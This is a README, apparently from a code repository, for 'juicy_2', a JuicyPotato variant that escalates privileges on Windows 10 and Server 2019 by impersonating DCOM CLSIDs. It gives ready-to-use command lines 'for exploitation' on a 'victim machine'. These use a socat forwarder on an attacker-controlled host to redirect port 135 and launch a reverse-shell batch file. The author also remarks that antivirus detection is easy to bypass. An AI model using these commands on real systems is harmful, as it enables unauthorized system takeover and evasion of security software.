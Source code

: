 # juicy_2
juicypotato for win10 > 1803 &amp; win server 2019<br>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's an to impersonate them for newer windows 10 and windows server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>

Mandatory requisite is to have the possibility to reidirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID] to test:<br>
Example:
  on victim machine:
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
<br>
  <i><b>For exploitation:</i>/br><br>
  on victim machine:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995<br>
  
